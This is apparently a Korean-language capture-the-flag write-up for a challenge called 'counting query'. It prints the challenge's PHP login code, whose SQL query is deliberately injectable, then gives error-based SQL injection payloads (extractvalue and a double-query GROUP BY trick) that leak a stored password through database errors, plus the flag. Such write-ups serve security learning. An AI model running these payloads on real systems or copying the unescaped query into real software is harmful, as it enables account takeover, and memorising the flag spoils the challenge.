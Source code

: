 ## counting query
<hr style="border-top: 1px solid;"><br>

```php
?php
 if (isset($_GET['view-source'])) {
     show_source(__FILE__);
     exit();
 }
 include("./inc.php"); // database connect, $FLAG.
 ini_set('display_errors',false);

 function err($str){ die("<script>alert(\"$str\");window.location.href='./';</script>"); }
 function uniq($data){ return md5($data.uniqid());}
 function make_id($id){ return mysql_query("insert into all_user_accounts values (null,'$id','".uniq($id)."','guest@nothing.null',2)");}
 function counting($id){ return mysql_query("insert into login_count values (null,'$id','".time()."')");}
 function pw_change($id) { return mysql_query("update all_user_accounts set ps='".uniq($id)."' where user_id='$id'"); }
 function count_init($id) { return mysql_query("delete from login_count where id='$id'"); }
 function t_table($id) { return mysql_query("create temporary table t_user as select * from all_user_accounts where user_id='$id'"); };

 if(empty($_POST['id']) || empty($_POST['pw']) || empty($_POST['type'])){
  err("Parameter Error :: missing");
 }

 $id=mysql_real_escape_string($_POST['id']);
 $ps=mysql_real_escape_string($_POST['pw']);
 $type=mysql_real_escape_string($_POST['type']);
 $ip=$_SERVER['REMOTE_ADDR'];

 sleep(2); // not Bruteforcing!!

 if($id!=$ip){
  err("SECURITY : u can access with allotted id only");
 }

 $row=mysql_fetch_array(mysql_query("select 1 from all_user_accounts where user_id='$id'"));
 if($row[0]!=1){
  if(false === make_id($id)){
   err("DB Error :: create user error");
  }
 }
 
 $row=mysql_fetch_array(mysql_query("select count(*) from login_count where id='$id'"));
 $log_count = (int)$row[0];
 if($log_count >= 4){
  pw_change($id);
  count_init($id);
  err("SECURITY : bruteforcing detected - password is changed");
 }
 
 t_table($id); // don`t access the other account

 if(preg_match("/all_user_accounts/i",$type)){
  err("SECURITY : don`t access the other account");
 }

 counting($id); // limiting number of query

 if(false === $result=mysql_query("select * from t_user where user_id='$id' and ps='$ps' and type=$type")){
  err("DB Error :: ".mysql_error());
 }

 $row=mysql_fetch_array($result);
 
 if(empty($row['user_id'])){
  err("Login Error :: not found your `user_id` or `password`");
 }

 echo "welcome <b>$id</b> !! (Login count = $log_count)";
 
 $row=mysql_fetch_array(mysql_query("select ps from t_user where user_id='$id' and ps='$ps'"));

 //patched 04.22.2015
 if (empty($ps)) err("DB Error :: data not found..");

 if($row['ps']==$ps){ echo "<h2>wow! FLAG is : ".$FLAG."</h2>"; }

?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution (풀이 봄)
<hr style="border-top: 1px solid;"><br>

```if(false === $result=mysql_query("select * from t_user where user_id='$id' and ps='$ps' and type=$type")) { err("DB Error :: ".mysql_error()); }``` 

이 부분을 이용하여 alert 메시지를 확인해가면서 풀 수 있을 듯 하다.

<br>

우선 개발자 도구에서 타입을 선택하는 부분이다.
: ```<select name='type'> <option value='1'>admin</option> <option value='2' selected>user</option> </select>```

여기서 admin 부분을 보면 value가 1로 설정되어 있다. 

이 값을 아래와 같이 변경해주면 버전을 확인할 수 있다.

<br>

1 union select extractvalue(1, concat(0x3a,version()))
: ```DB Error :: XPATH syntax error: ':5.5.64-MariaDB-1ubuntu0.14.04.1'```

<br>

우리는 비밀번호를 찾아야 한다. 그 비밀번호는 우리가 에러를 일으키면서 출력된 에러 안에 표시가 되어야 한다.

<br>

extractvalue로는 Constant XPATH 에러가 계속 떠서 xml 함수로는 불가능하다고 판단, ```select COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) as x FROM information_schema.tables GROUP BY x``` 이 구문을 이용해보려 했는데 이 구문은 제대로 이해를 하지 못해서 풀이를 찾아보았다..

<br>

Double Query Injection
: <a href="https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c" target="_blank">medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c</a>

<br>

```or row(1,1)>(select count(*), concat(ps,0x3a,floor(rand()*2)) as a from information_schema.tables group by a)```

-> ```DB Error :: Duplicate entry '98cb680f6259df442c7878192ab5d58a:0' for key 'group_key'```

<br>

row 함수의 의미
: <a href="https://ch4njun.tistory.com/88" target="_blank">ch4njun.tistory.com/88</a>
: <a href="https://ind2x.github.io/posts/sql_injection/#error-based-sql-injection" target="_blank">ind2x.github.io/posts/sql_injection/#error-based-sql-injection</a>

<br>

+ Flag : ```DH{7e4950ce11ea958764a20eadb3bf43c6b49b474f}```

<br><br>
<hr style="border: 2px solid;">
<br><br>

